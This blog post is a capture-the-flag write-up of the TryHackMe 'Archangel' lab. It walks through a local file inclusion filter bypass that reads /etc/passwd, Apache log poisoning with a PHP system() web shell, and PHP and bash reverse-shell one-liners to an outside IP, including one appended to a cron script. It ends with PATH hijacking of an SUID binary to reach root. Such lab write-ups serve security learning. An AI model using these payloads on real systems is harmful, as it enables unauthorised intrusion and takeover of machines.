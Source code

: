 ```yaml
---
layout: post
title:  "THM: Archangel"
date:   2021-02-04 23:00:00 +1100
category: hacking
---
```


## Archangel
*A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.*

This is [Archangel](https://tryhackme.com/room/archangel) from THM. It's easy rated, but I would say it's not the easiest easy. This writeup is a bit half-hearted, but it captures the important points.

## Ports
SSH and HTTP; that's it. 

## HTTP
It's a basic website but we have a clue about getting another hostname. We see an email address with the domain *mafialive.thm*. We add this to /etc/hosts and go to http://mafialive.thm. Here is a different page, with a flag. In robots.txt we find what we we are after - *test.php*.

We are given an LFI, and we have to find how to exploit it.

### LFI
We can use base64 encoding to get the source code for *test.php*.

{% highlight php %}
<!DOCTYPE HTML>
<html>
<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: REDACTED

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>
</html>
{% endhighlight %}

So, what do we have? The *containsStr* function basically says we cannot have *../..* in whatever path we give to the function, but it must contain 
*/var/www/html/development_testing*. This complicates our LFI somewhat.

Initially I tried paths like:

>/etc/passwd%00/var/www/html/development_testing

This did not produce any errors, but also did not create the desired result, so null bytes do not work.

How do we get from /var/www/html/development_testing to some other directory? We have to retreat back down the directory tree from there. A working path is:

http://mafialive.thm/test.php?view=/var/www/html/development_testing..///////..////..///////..////..///////..////..///////..////..///////..////..///////..////..///////..////..///////..////..///////..////..///////..////etc/passwd

This was easily the trickiest part I think, although it's quite simple conceptually.

### Log poisoning
With our LFI now working, we can include */var/log/apache2/access.log* and this is our path onto the box. We can poison the log like so:

{% highlight shell %}
root@kali:/opt/tryhackme/archangel# nc mafialive.thm 80
GET /<?php system($_GET['cmd']);?>
HTTP/1.1 400 Bad Request
Date: Thu, 04 Feb 2021 10:41:04 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at localhost Port 80</address>
</body></html>
{% endhighlight %}

Then we can send a shell command and get on the box; like:

``
php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

## Lateral Move
As www-data we need to exploit a cronjob running as *archangel* to become that user. I'll just show the command I used (with a second listener), without showing crontab:

{% highlight shell %}
www-data@ubuntu:/opt$ printf 'bash -i >& /dev/tcp/10.9.10.123/1235 0>&1\n' >> helloworld.sh
< /dev/tcp/10.9.10.123/1235 0>&1\n' >> helloworld.sh
{% endhighlight %}

## Privesc
As *archangel* we've got access to an SUID binary that calls *cp* without a path - this is our privesc. I create an evil *cp* and call the binary. I didn't disassemble the binary; strings was enough to see what was going on.

{% highlight shell %}
archangel@ubuntu:~/secret$ printf '/bin/sh\n' > cp
printf '/bin/sh\n' > cp
archangel@ubuntu:~/secret$ chmod +x cp
chmod +x cp
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
archangel@ubuntu:~/secret$ ./backup
./backup
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
{% endhighlight %}

A few good things for an easy rated box I reckon.
